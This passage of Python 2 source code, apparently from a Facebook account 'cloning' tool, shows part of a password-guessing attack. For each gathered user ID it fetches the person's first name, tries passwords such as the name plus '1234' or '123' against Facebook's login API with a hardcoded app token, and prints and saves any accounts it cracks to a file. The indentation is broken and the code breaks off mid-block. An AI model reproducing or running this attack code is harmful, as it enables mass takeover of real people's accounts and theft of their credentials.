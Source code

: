 			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;93mTotal Accounts\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mWait\033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93m•Cloning Has Been Started•\033[1;93m"+o),;sys.stdout.flush();time.sleep(0.05)
	print "\n\033[1;92mNOTE:\x1b[1;93m [If You Want to Stop Process Press CTRL+Z]"
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mTalhaYT\033[1;95m-_-_-_-_-_-_-_-_-»"
 	
			
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user											
				print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b ['name']
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				    print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user								
				            print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]: